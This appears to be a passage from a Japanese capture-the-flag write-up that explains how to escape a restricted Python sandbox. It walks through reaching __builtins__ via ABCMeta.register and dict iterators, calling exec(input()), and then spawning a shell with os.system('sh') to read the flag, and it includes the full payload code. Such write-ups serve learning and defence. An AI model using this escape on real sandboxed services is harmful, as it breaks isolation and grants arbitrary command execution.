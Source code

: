 直接`__import__`や`exec`などの関数を利用することはできないので、よくある`__builtins__`が空の状態でも`__builtins__`にアクセスする一般的な手法を使用する
```
[].__class__.__class__.__subclasses__([].__class__.__class__)[0].register.__builtins__
```
を利用したい。

`0`は利用できないが、`[].__len__()`が0を返すので、これを利用できる。

`<ABCMeta>.register`のような要素へのアクセスは、`register`が`_`で囲われていないためできない。したがって、`<ABCMeta>.__dict__['register']`のように実行したい。しかし、この場合も文字列が利用できないことがネックとなる。

そこで、`<ABCMeta>.__dict__.__iter__()`を実行すると、辞書のキーを羅列するイテレーターが生成されることを利用する。

変数名の制約を満たすため、`__iter__()`から得たイテレータを`__bizbaz__`という変数にセイウチ代入式を利用して代入し、`__bizbaz__.__next__()`が`'register'`となるまで繰り返し実行することで、`<ABCMeta>.__dict__['register']`を取得することができる。

`<ABCMeta>.__dict__['register'].__builtins__`までアクセスできたあとは、これも辞書型なので同様の方法で`exec`と`input`にアクセスし、`exec(input())`を実行する。

以下のコードを送信したあと、`__import__('os').system('sh')`を実行するとシェルが得られるので、`cat /flag*`を実行してフラグを入手できる。

```python
code = """
[__foobar__:=[].__class__.__class__.__subclasses__([].__class__.__class__)[[].__len__()].__dict__,
__bizbaz__:=__foobar__.__iter__(),
__bizbaz__.__next__(),
__bizbaz__.__next__(),
__bizbaz__.__next__(),
__builtins__:=__foobar__[__bizbaz__.__next__()].__builtins__,
__biters__:=__builtins__.__iter__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__exec__:=__builtins__[__biters__.__next__()],
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__biters__.__next__(),
__exec__(__builtins__[__biters__.__next__()]())]""".replace("\n", "")
print(code)
```
